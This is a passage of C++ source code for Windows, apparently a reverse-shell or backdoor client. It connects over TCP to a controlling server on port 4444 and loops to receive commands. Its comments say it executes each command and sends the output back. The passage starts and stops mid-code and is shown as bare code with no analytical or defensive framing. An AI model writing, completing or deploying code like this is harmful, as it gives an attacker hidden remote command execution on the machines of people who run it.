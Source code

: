 ```cpp
	_pclose(pipe);
	return result;

}

int main()
{

	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);

	// Connect to the server
	// 1. Listen for command
	// 2. Execute the command
	// 3. Send back the output
	// Goto 1

	struct addrinfo* result = NULL, * ptr = NULL, hints;

	ZeroMemory(&hints, sizeof(hints));
	hints.ai_family = AF_INET;
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;

	if (getaddrinfo("", "4444", &hints, &result) != 0)
	{
		printf("getaddrinfo failed.\n");
	}

	SOCKET sock = INVALID_SOCKET;

	sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);

	if (sock == INVALID_SOCKET)
	{
		printf("socket failed.\n");
		return 1;
	}

	connect(sock, result->ai_addr, (int)result->ai_addrlen);

	while (true)
	{

		int msg_len = 0;
		std::string msg = "";

		// recv first 4 bytes for msg length
		recv(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 0);
		msg_len = ntohl(msg_len);

		// recv msg length bytes
		std::vector<char> buffer(msg_len);

		int total = 0;
		int recieved = 0;

		while (total < msg_len)
		{
			recieved = recv(sock, buffer.data() + total, msg_len - total, 0);
			total += recieved;

		}
```
